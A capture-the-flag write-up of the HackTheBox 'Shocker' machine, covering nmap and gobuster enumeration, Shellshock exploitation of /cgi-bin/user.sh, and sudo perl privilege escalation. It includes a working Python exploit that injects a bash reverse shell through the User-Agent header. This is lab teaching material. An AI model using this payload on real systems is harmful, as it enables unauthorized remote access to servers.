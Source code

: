 # HackTheBox - Shocker Writeup


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

## Http: don't bug me!
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.

![](dont-bug-me.png)

### Gobuster
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.

![](cgi-bin.png)

Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.

![](gobuster-cgi-bin.png)

The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.

![](gobuster-cgi-bin-user-sh.png)

### Http: /Cgi-Bin/User.sh
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)

![](read-the-file-user-sh.png)

## Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

## PrivEsc: Perl
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://note.shafiqaiman.com/misc/upgrade-reverse-shell#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!

![](root.png)

VOILA
